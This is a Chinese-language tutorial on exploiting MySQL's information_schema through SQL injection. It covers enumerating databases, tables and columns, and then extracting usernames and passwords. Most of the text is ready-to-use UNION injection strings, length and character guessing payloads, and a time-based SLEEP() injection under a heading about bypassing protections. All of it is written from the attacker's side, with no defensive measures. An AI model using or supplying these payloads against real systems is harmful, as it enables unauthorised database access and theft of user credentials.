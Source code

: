 在 SQL 注入中，攻击者通常利用 `information_schema` 表来获取数据库的结构信息，包括数据库名称、表名和列名。这是因为 `information_schema` 是一个元数据库，存储了数据库的所有元数据。

### **利用 `information_schema` 的简介逻辑**

1. **确定注入点**
   找到可以注入 SQL 语句的输入位置，例如登录页面或搜索框。

2. **列出数据库**
   利用 `information_schema.schemata` 查看目标系统中所有的数据库名称：

   ```sql
   SELECT schema_name FROM information_schema.schemata;
   ```

3. **列出目标数据库中的表**
   确定目标数据库后，利用 `information_schema.tables` 查看其中的所有表：

   ```sql
   SELECT table_name FROM information_schema.tables WHERE table_schema = 'target_database';
   ```

4. **列出目标表的列**
   确定目标表后，利用 `information_schema.columns` 查看表的列名：

   ```sql
   SELECT column_name FROM information_schema.columns WHERE table_name = 'target_table';
   ```

5. **提取敏感数据**
   使用前面获取的表名和列名，直接查询表中的敏感数据，例如用户账号和密码：

   ```sql
   SELECT username, password FROM target_table;
   ```

------

### **核心操作**

- **`schemata`**：查看数据库列表
- **`tables`**：查看表列表
- **`columns`**：查看列列表

通过 `UNION` 或条件查询，攻击者逐步构建目标数据库结构的完整图谱，为提取数据做准备。



以下是常见的利用方式：

------

## **1. 获取数据库列表**

目标：列出目标服务器上的所有数据库。

```sql
SELECT schema_name FROM information_schema.schemata;
```

假设注入点是 `username` 参数，攻击者可能构造如下注入：

```sql
' UNION SELECT schema_name, null FROM information_schema.schemata -- 
```

------

## **2. 获取某个数据库中的所有表**

目标：枚举目标数据库的所有表。

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'target_database';
```

攻击者可以通过注入如下语句，爆破目标数据库的表名：

```sql
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = 'target_database' -- 
```

如果目标表名未知，可以逐步爆破其长度和字符内容。

------

## **3. 获取某个表的列信息**

目标：枚举目标表的列名，用于后续的敏感数据提取。

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'target_table';
```

攻击者可能构造如下注入语句：

```sql
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'target_table' -- 
```

如果目标列名未知，也可以逐步爆破长度和字符内容。

------

## **4. 获取列类型等其他信息**

目标：了解目标列的类型、约束等详细信息，为后续攻击（如类型转换或 Bypass）做准备。

```sql
SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'target_table';
```

SQL 注入示例：

```sql
' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'target_table' -- 
```

------

## **5. 获取表和列的组合信息**

目标：列出所有数据库、表和列信息的组合，全面分析目标系统。

```sql
SELECT table_schema, table_name, column_name FROM information_schema.columns;
```

SQL 注入示例：

```sql
' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns -- 
```

------

## **6. 动态爆破信息**

当目标系统有字符长度限制或不能直接返回完整结果时，攻击者可以动态猜测元信息：

- 按长度猜测：

  ```sql
  ' UNION SELECT column_name, null FROM information_schema.columns WHERE LENGTH(column_name) = 5 -- 
  ```

- 按字符猜测：

  使用逐字符比对的方法，如：

  ```sql
  ' UNION SELECT column_name, null FROM information_schema.columns WHERE column_name LIKE 'pass%' -- 
  ```

------

## **7. 获取敏感数据**

一旦攻击者知道了表和列的具体名称，就可以结合这些信息，提取敏感数据，例如用户表的用户名和密码。

```sql
SELECT username, password FROM target_database.users;
```

SQL 注入语句可能如下：

```sql
' UNION SELECT username, password FROM target_database.users -- 
```

------

## **8. 绕过防护**

条件过滤： 使用条件语句避免抛出异常：

```sql
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' AND column_name LIKE 'a%' -- 
```

延时注入： 利用 

```sql
SLEEP()
```

 等函数确认元数据是否存在：

```sql
' UNION SELECT IF(LENGTH(table_name) = 5, SLEEP(5), NULL) FROM information_schema.tables -- 
```

------

### **总结**

利用 `information_schema` 的核心目标是枚举目标数据库的结构信息，这为进一步提取敏感数据和实施攻击奠定了基础。攻击者会通过以下步骤：

1. 获取数据库名称；
2. 获取目标数据库的表名；
3. 获取目标表的列名；
4. 提取敏感数据。
